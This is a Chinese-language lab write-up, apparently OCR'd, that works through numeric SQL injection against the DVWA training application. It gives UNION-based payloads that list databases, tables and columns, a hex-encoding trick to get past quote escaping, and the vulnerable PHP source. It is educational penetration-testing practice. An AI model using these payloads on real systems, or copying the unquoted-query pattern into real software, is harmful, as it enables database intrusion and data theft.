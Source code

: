 输入：3 and 1=1#\
回显:
<pre>ID:   3 and 1=1# 
<br />First name: Hack<br /> 
      Surname: Me</pre> 
输入 id=3 and 1=2# \
没有回显，则存在数字型注入\
猜测 sql 语句为：因为查询结果只有两列（输入 3 order by 3-->出错）\
select   First name,Surname \
   from <表名>
   where id = 3;\
使用 union 进行联合注入：\
输入\
id=3   \
   union \
   select 1,database()\
   from information_schema.schemata#\
回显：\
[图片]\
说明当前的数据库为 dvwa，接下来查看数据库中有哪些表\
3 union select 1，table_name from information_schema.tables where table_schema='dvwa'#\
报错 use near '\'dvwa\'#' at line 1，单引号被转义，要将字符'dvwa'转化为 16 进制数 0x64767761,再次输入\
3 union select 1，table_name from information_schema.tables where table_schema=0x64767761#\
回显：\
[图片]\
对 guestbook 表格感兴趣，则查找其中有哪些列\
输入：\
3 union select 1，column_name from information_schema.columns\
where table_schema=0x64767761 and table_name=0x6775657374626f6f6b#\
回显成功\
[图片]\
如果对 guestbook 表格中 comment_id 和 comment 感兴趣则可以输入\
3 union select comment,comment_id\
 from guestbook#\
[图片]\
查看源码进行分析：
```PHP
<?php
 
   if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];
 
    $id =   mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);
 
    $query  = "SELECT first_name, last_name FROM   users WHERE user_id = $id;";
    $result =   mysqli_query($GLOBALS["___mysqli_ston"], $query) or die(   '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) .   '</pre>' );
 
    // Get results
    while( $row = mysqli_fetch_assoc(   $result ) ) {
        // Display values
        $first =   $row["first_name"];
        $last  = $row["last_name"];
 
        // Feedback for end user
        echo "<pre>ID:   {$id}<br />First name: {$first}<br />Surname:   {$last}</pre>";
    }
 
   }
 
   // This is used later on in the index.php page
   // Setting it here so we can close the database connection in here like in   the rest of the source scripts
```